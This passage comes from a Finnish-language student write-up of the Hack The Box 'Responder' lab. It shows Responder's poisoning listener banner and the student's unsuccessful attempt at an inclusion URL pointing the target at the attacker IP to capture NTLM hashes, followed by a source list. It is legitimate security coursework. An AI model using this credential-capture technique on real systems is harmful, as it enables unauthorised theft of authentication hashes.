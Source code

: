 ```bash
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.15.181]
    Responder IPv6             [dead:beef:2::11b3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-OVN1W9AXNAE]
    Responder Domain Name      [YQCN.LOCAL]
    Responder DCE-RPC Port     [48556]

[+] Listening for events...     
```

Jos ymmärrän oikein niin tämän [^12] ja tämän artikkelin [^13] mukaan jotain olisi jo pitänyt taphtua kun kokeilen osoitteita page=/osoite/somefile, mutta mitään ei tapahtunut. 

Katsoin walktroughin [^14] ja olen ehkä tehnyt jotain väärin, mutta kun menen mielestäni oikeaan urliin selaimessa: http://unika.htb/index.php?page=//10.10.15.181/somefile, niin Responderissa ei tapahdu mitään 🤔. 



---

### Lähteet

[^1]: Tero Karvinen. Tunkeutumistestaus: https://terokarvinen.com/tunkeutumistestaus/


[^2]: Hack the Box. Hack The Box FAQs: HOW TO CONNECT TO VPN: https://www.youtube.com/watch?v=LMCKbR_wWds
[^3]: Using telnet: https://support.ricoh.com/bb_v1oi/pub_e/oi_view/0001038/0001038625/view/network/unv/0029.htm
[^4]: Hack the Box: Learn the basics of Penetration Testing - Starting point: https://app.hackthebox.com/starting-point 
[^5]: Wikipedia. FTP: https://en.wikipedia.org/wiki/FTP
[^6]: Wikipedia. Server Message Block: https://en.wikipedia.org/wiki/Server_Message_Block
[^7]: Stack Overflow. SMB Client Commands Through Shell Script: https://stackoverflow.com/questions/28698694/smb-client-commands-through-shell-script
[^8]: nmap.org. A Quick Port Scanning Tutorial: https://nmap.org/book/port-scanning-tutorial.html
[^9]: Redis. Getting Started: https://redis.io/learn/howtos/quick-start 
[^10]: Carla Ferreira. Hack The Box — Starting Point “Responder” Solution: https://medium.com/rakulee/hack-the-box-starting-point-responder-solution-d0fa2ea77a56
[^11]: Wikipedia. NTLM https://en.wikipedia.org/wiki/NTLM
[^12]: 0xdf hacks stuff. Getting Creds via NTLMv2: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html
[^13]: narrowtomato. Using Responder To Grab NetNTLMv2: https://narrowtomato.github.io/guides/responder_ntlm.html
[^14]: GetCyber. Responder – Hack The Box // Walkthrough & Solution // Kali Linux: https://www.youtube.com/watch?v=wq-najIgsRU
[^15]: Tero Karvinen. Start Your Research with a Review Article: https://terokarvinen.com/review-article/
[^16]: Kumaresan Durvas Jayaraman, Dr. Shubha Goel. ADVANCEMENTS IN AUTHENTICATION MECHANISMS USING OAUTH 2.0 AND SAML: https://www.researchgate.net/profile/Kumaresan-Durvas-Jayaraman/publication/390172665_ADVANCEMENTS_IN_AUTHENTICATION_MECHANISMS_USING_OAUTH_20_AND_SAML/links/67e324bb72f7f37c3e8d9210/ADVANCEMENTS-IN-AUTHENTICATION-MECHANISMS-USING-OAUTH-20-AND-SAML.pdf